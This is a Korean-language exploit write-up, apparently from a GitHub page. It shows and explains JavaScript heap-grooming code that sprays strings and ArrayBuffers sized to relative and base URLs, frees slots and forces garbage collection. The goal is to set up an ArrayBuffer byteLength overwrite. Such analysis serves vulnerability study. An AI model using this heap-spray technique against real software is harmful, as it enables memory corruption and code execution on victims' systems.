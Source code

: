 ```js
for (var i = 0; i < arrB.length; i++) {
  arrB[i] = sprayStr1.substr(0, (strRelUrlSize / 2) - 1).toUpperCase();
}

// 2. string 사이에 relativeURL을 저장할 공간 지정
for (var i = 0x11; i < arrB.length; i += 10) {
  arrB[i] = null;
  arrB[i] = undefined;
}

// 3. 연결된 URL을 저장할 LFH heap 공간 생성
var arrA = new Array(0x130);
for (var i = 0; i < arrA.length; i++) {
  arrA[i] = createArrayBuffer(strConUrlSize);
}

// 4. LFH에 ArrayBuffer로 할당된 heap 사이에 연결된 URL이 들어갈 공간 지정
for (var i = 0x11; i < arrA.length; i += 10) {
  arrA[i] = null;
  arrA[i] = undefined;
}

// Garbage Collection 진행 (URL이 들어갈 공간을 진짜로 비워주기 위해)
gc();
```

- Preparing Heap Layout 단계는 다음의 과정을 거쳐 Heap Layout을 준비한다.
    1. byteLength를 덮어쓸 문자열이 저장될 LFH heap 공간을 생성한다.
        - relative URL 크기 (0x600 byte) 만큼의 길이를 가진 문자열을 여러 번 할당해 LFH를 활성화한다.
            - `"%u????"`는 뒤의 2 byte (`????`)가 Unicode로 encoding된다.
            - `sprayStr1.substr(0, (strRelUrlSize / 2) - 1).toUpperCase();`는 Null Terminator 2byte 제외 `(strRelUrlSize/2)-1`개의 Unicode 문자를 나타낸다.
            - Null Terminator 2byte 제외 `(strRelUrlSize/2)-1`개의 Unicode 문자는 `strRelUrlSize-2` byte 크기로, Null Terminator 2 byte 합치면 relative URL의 길이가 된다. <br><br>

    2. string 사이에 relativeURL을 저장할 공간을 지정한다. <br>

    3. 연결된 URL을 저장할 LFH heap 공간을 생성한다.
       - 연결된 URL 크기 (0x800 byte) 만큼 여러 번 ArrayBuffer를 할당해 LFH를 활성화한다.
        
        ---
        
       - 각 URL 및 heap header 크기는 다음과 같다.
            1. relative URL : null 문자 포함 0x600 byte
            2. base URL : null 문자 포함 0x200 byte
            3. ArrayBuffer header : 0x10 byte
            4. Heap metadata : 0x08 byte
        ---
               
       - relative URL과 base URL은 다음과 같이 저장된다.
         - relative URL은 문자열 자체로 strings에 들어간다.
         - base URL은 ArrayBuffer로 선언한 영역에 복사되어 들어간다.
